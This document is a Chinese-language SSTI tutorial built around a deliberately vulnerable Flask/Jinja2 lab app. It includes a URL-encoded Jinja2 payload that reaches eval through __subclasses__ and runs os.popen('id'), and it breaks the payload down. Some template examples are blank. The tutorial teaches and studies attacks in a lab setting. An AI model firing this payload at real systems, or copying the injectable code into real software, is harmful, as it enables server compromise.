









## 定义
SSTi(Server Side Template Injection)，服务端模板注入，它主要利用的是模板引擎将攻击者构造的payload在服务端按代码语义解析执行，然后加载在模板文件中(可以是HTML，也可以是模板可解析的特定后缀)，最后渲染到web页面上。
## 一些知识点
### 什么是模板/模板引擎？
目前主流的web开发主要分为以下两种技术：

- 前后端不分离：即后端完成路由，用户在浏览器输入一个url，访问的是后端路由（服务端响应），后端接收请求后，再将数据通过模板引擎解析再渲染成视图返回给前端。后端路由，由后端渲染数据，再返回视图给前端，前端只负责展示视图，所有的交互都在后台
- 前后端分离：前端使用JavaScript框架，如(jquery，vue，react，angular)，前端项目化；后端去掉所有的视图，只提供api接口，用户在浏览器访问的路由为前端路由（也称为Hash路由，由前端响应），只加载前端视图，数据只通过ajax获取，前端获取数据之后再渲染到视图，前端负责控制路由，展示视图，后端只负责提供api，用户和视图交互，视图上的按钮以及页面数据和后端api交互

模板可以理解为一段固定好格式，等着你来填充信息的文件。通过这种方法，可以做到逻辑与视图分离，更容易、清楚且相对安全地编写前后端不同的逻辑。作为对比，一个很不好的解决方法是用脚本语言的字符串拼接html，然后统一输出。
模板引擎是为了使用户界面与业务数据（内容）分离而产生的，它可以生成特定格式的文档，用于网站的模板引擎就会生成一个标准的文档，就是将模板文件和数据通过模板引擎生成一个HTML代码。
流程如下所示：

视图(view)：
```html
<!--login.tpl-->
<html>
    <head>
        <title>{{title}}</title>
    </head>
    <body>
        <form method="{{method}}",action={{action}}>
            <input type="text" name="user" value="{{username}}">
        </form>
        <p>
            This page took {{microtime(true) - time}} seconds to render.
        </p>
    </body>
</html>
```
后端逻辑(Controller)：后端将数据绑定绑定好交给模板引擎解析，完成前端页面的渲染
```php
$templateEngine = new TemplateEngine();
$tpl = $templateEngine->loadFile(login.tpl);
$tpl->assign('title','Login');
$tpl->assign('method','post');
$tpl->assign('action','login.php');
$tpl->assign('username',getUserNameFromCookie());
$tpl->assign('time',microtime(true));
$tmp->show();
```
## 模板注入基本原理
通过模板，Web应用可以把输入经过模板解析转换成特定字符显示在HTML文件,这里以一个简单的例子来说明，如下，将客户端传来的name经过模板解析，然后将渲染好的值返回给前端
### 靶场环境
这里选择python3 + flask + jinja2 作为靶场环境
```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)


@app.route('/')
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello " + name)
    return t.render()


if __name__ == "__main__":
    app.run()

```
正常请求如下，服务端解析字符之后，就和前面的`Hello`拼接起来，然后呈现给前端

那么如果利用模板语法呢？（这里只针对jinja2做测试）
```
{{7*7}}
```

我们可以调试看一下，在调用gensrate 之前，source在经过上一层parse函数解析之后，已经将需要渲染的内容变成了`Template(body=[Output(nodes=[TemplateData(data='Hello '), Mul(left=Const(value=7), right=Const(value=7))])])`


继续单步向下，可以看到模板引擎已经将其解析成代码了

这个调试有点复杂，在生成代码之后，然后再代码执行（代码执行的函数为from_code）


那么只需要根据模板语法来构造payload就可以完成代码执行了，但是也并不是任意代码执行的,需要满足引擎渲染的表达式，来构造代码
### 模板用法
```python
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
：装载一个控制语句。
{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值
```
#### 变量
在模板中添加变量，可以使用（set）语句
```python

```
#### 创建一个内部的作用域
with语句来创建一个内部的作用域，将set语句放在其中，这样创建的变量只在with代码块中才有效
```python

{{ gg }}

```
#### if 语句
```python

{{ 7*7 }}

{{ 8*8 }}

```
#### for 循环
```python

{{c}}

```
## 利用方法
Flask使用Jinja2这个渲染引擎，结合python代码来看，主要是通过Python对象的继承，用魔术方法一步步找到可利用的方法去执行。即找到父类`<type 'object'>`–>寻找子类–>找关于命令执行或者文件操作的模块
### 对象的魔术方法
```python
__class__  返回示例所属的类
__mro__    返回一个类所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回一个类所继承的基类
# __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```
### payload
```python
%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

### paylaod 分析
使用for表达式来获取eval函数(只针对flask)，使用eval函数加载恶意执行代码
```python
 for c in [].__class__.__base__.__subclasses__():
        if c.__name__ == 'catch_warnings':
            for b in c.__init__.__globals__.values():
                if b.__class__ == {}.__class__:
                    if 'eval' in b.keys():
                        print(b['eval']('__import__("os").popen("id").read()'))
```
以上代码改写为模板语法如下：满足模板语法，通过寻找list的基类中可用的引用列表，当其满足是字典的时候，存在eval方法，直接执行代码
```python


  
  
    
      {{ b['eval']('__import__("os").popen("id").read()') }}
    
  
  


```

## 其他环境
| 环境地址 | 备注 |
| --- | --- |
| [https://vulhub.org/#/environments/flask/ssti/](https://vulhub.org/#/environments/flask/ssti/) | vulhub |
| [https://portswigger.net/web-security/all-labs](https://portswigger.net/web-security/all-labs) | burp官方靶场 |

## 参考链接
[https://blog.csdn.net/qq_43431158/article/details/105322894](https://blog.csdn.net/qq_43431158/article/details/105322894)

[https://blog.csdn.net/u011377996/article/details/86776181](https://blog.csdn.net/u011377996/article/details/86776181)

[https://portswigger.net/web-security/server-side-template-injection](https://portswigger.net/web-security/server-side-template-injection)

[https://vulhub.org/#/environments/flask/ssti/](https://vulhub.org/#/environments/flask/ssti/)

[https://blog.csdn.net/new_abc/article/details/48091721](https://blog.csdn.net/new_abc/article/details/48091721)

[https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)


